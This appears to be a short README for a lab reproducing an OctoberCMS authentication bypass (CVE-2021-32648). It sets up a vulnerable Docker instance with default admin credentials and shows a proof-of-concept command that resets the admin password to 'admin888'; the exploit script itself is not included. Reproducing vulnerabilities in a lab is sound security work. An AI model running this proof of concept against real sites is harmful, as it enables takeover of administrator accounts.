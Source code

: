 # OctoberCMS Auth Bypass -- CVE-2021-32648

## Vuln App

```
docker-compose up -d
```

backend url: http://localhost/backend
default: admin / admin

## Poc

```
python3 test.py --target http://localhost --password admin888
```

You can find the admin's password is modified to "admin888"